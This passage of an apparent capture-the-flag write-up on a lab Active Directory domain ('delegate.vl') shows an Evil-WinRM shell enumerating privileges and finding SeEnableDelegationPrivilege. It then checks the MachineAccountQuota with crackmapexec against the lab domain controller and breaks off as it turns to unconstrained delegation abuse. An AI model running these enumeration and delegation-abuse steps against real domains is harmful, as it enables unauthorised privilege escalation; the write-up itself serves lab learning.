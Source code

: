If you run `whoami /priv`, you'll notice an interesting privilege that has been enabled for `N.Thompson`.

```
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

It seems as though they have `SeEnableDelegationPrivilege`, which is a new privilege that I have not encountered before. This specific privilege allows us to enable the trusted asset for computer and user accounts.

You can find documentation on this privilege [here](https://www.elastic.co/guide/en/security/current/sensitive-privilege-seenabledelegationprivilege-assigned-to-a-user.html). Essentially, this privilege allows our user to impersonate other accounts or computers. The interesting thing about this privilege is that we can essentially set delegation properties to be configured on behalf of user and computer objects, hence the ability for us to `Enable` delegation.

Another interesting part about this is the fact that we can do this for computer accounts as well. While we don't have access to any machine accounts currently, our current user does have a property that isn't normally enabled to user accounts. That specific property is our MAQ, or `MachineAccountQuota`. This specific property allows us to create computer accounts within the context of our current users permissions.

```
└─$ crackmapexec ldap 10.10.87.35 -u 'N.Thompson' -p '[...snip...]' -M maq
SMB         10.10.87.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.87.35     389    DC1              [+] delegate.vl\N.Thompson:[...snip...]
MAQ         10.10.87.35     389    DC1              [*] Getting the MachineAccountQuota
MAQ         10.10.87.35     389    DC1              MachineAccountQuota: 10
```

As you can see, it seems as though `N.Thompson` has a MAQ of 10. In order to add computer accounts to the domain, a minimum MAQ of 1 is required.

# Exploiting Unconstrained Delegation

At this point, the attack path becomes relatively clear. What we'll need to do is perform [Unconstrained Delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/):
